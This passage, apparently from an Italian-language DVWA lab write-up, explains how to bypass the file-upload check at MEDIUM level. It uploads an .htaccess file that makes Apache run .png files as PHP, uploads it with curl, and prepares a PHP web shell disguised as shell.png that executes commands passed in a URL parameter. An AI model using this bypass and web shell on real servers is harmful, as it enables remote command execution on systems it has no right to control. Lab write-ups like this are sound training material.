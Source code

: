 
## Advanced Techniques - .htaccess Manipulation

### Apache Configuration Exploitation

Durante il testing del livello MEDIUM, è emersa la possibilità di manipolare il comportamento di Apache attraverso file `.htaccess`.

#### .htaccess Fundamentals

**Apache .htaccess Overview**:
Un file `.htaccess` (hypertext access) è un file di configurazione di Apache che permette di:
- Sovrascrivere configurazioni del server a livello di directory
- Creare regole di redirect e rewrite
- Gestire controlli di accesso
- **Impostare MIME types personalizzati** ← Vettore di attacco

#### Implementation Strategy

**Problema identificato**:
Apache non esegue codice PHP in file con estensione `.php.png` per default, poiché l'estensione primaria interpretata è `.png`.

**Soluzione via .htaccess**:
```apache
# Contenuto del file .htaccess
AddType application/x-httpd-php .png
```

**Breakdown della direttiva**:
- **`AddType`**: Direttiva Apache per aggiungere mapping MIME type
- **`application/x-httpd-php`**: MIME type per file PHP eseguibili
- **`.png`**: Estensione file da trattare come PHP

#### Exploitation Process

**Step 1 - .htaccess Creation**:
```bash
# Creazione file .htaccess
echo "AddType application/x-httpd-php .png" > .htaccess
```

**Step 2 - .htaccess Upload**:
```bash
# Upload del file .htaccess
curl -v \
-b "PHPSESSID=session_id_456" \
-F "uploaded=@.htaccess;type=text/plain" \
-F "Upload=Upload" \
http://192.168.1.100/DVWA/vulnerabilities/upload/
```

**Step 3 - PHP Shell Preparation**:
```bash
# Creazione shell PHP con estensione .png
cat > shell.png << 'EOF'
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
} else {
    echo "Web shell active. Use ?cmd=command";
}
?>
EOF
```
